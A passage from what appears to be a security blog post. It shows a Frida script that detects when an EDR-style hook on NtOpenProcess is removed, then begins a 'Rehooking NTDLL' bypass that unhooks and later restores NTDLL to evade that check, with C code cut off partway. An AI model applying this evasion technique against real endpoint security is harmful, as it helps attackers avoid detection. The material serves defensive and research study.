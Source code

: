 ```js
    while(true){
        await sleep(1000);
        var instruction = Instruction.parse(pNtOpenProcess)
        if(instruction.toString() != hookedBytes.toString()){
            send("[+] Function appears to be unhooked!")
        }
    }
}

doItAll()
```

Up top, I define a Javascript sleep function. We need this to give Frida a chance to load the hook before we grab the hooked bytes. If we were doing this in C/C++ with inline hooks like an EDR product then we wouldn't need to do this, since it should be equal to a JMP plus the address of the hooked function. Since we need to await it, we will place all of our Frida code into an async function. I'm sure there's a better way to do this but if it ain't broke.

After placing our hook, we call the sleep function. I found that it doesn't really matter how long you sleep for. Then we'll call Instruction.parse to grab the instruction located at the pointer to our function. This is the value that we're going to use to validate that our hook is still in place. In Frida (and many EDRs), it will be a jmp instruction pointing to the hooked function.

Then, for the lifetime of the function, we'll check the hook's integrity every second. This interval could easily be increased/decreased to balance performance overhead and security, a very key tradeoff for EDR products. To verify that our hook is still in place, we will grab the instruction at our function pointer and compare it to the hooked bytes. If the two are different then this means something has removed our hook, and we will alert the console. In a real product this would alert and then nuke the process.

```
[+] Process start success
[*] Hooked bytes: jmp 0x7fffa4a00108
[+] Called NtOpenProcess
[+] Function appears to be unhooked!
```

Running it again will show that we have detected a removed hook.

### Rehooking NTDLL

There are several ways to bypass this, but to stay in the same vein we'll take a look at placing the hook BACK into NTDLL.

Our process will look like:
* Get hooked NTDLL and store it
* Unhook NTDLL
* Call our function(s)
* Replace NTDLL with hooked version

```c
LPVOID getHookedNtdll() {
    HANDLE process = GetCurrentProcess();
    MODULEINFO mi;
    HMODULE ntdllModule = GetModuleHandleA("ntdll.dll");
    GetModuleInformation(process, ntdllModule, &mi, sizeof(mi));
    LPVOID ntdllBase = (LPVOID)mi.lpBaseOfDll;

    LPVOID hookedNtdll = NULL;

    PIMAGE_DOS_HEADER hookedDosHeader = (PIMAGE_DOS_HEADER)ntdllBase;
    PIMAGE_NT_HEADERS hookedNtHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)ntdllBase + hookedDosHeader->e_lfanew);

    for (WORD i = 0; i < hookedNtHeader->FileHeader.NumberOfSections; i++) {
        PIMAGE_SECTION_HEADER hookedSectionHeader = (PIMAGE_SECTION_HEADER)((DWORD_PTR)IMAGE_FIRST_SECTION(hookedNtHeader) + ((DWORD_PTR)IMAGE_SIZEOF_SECTION_HEADER * i));
```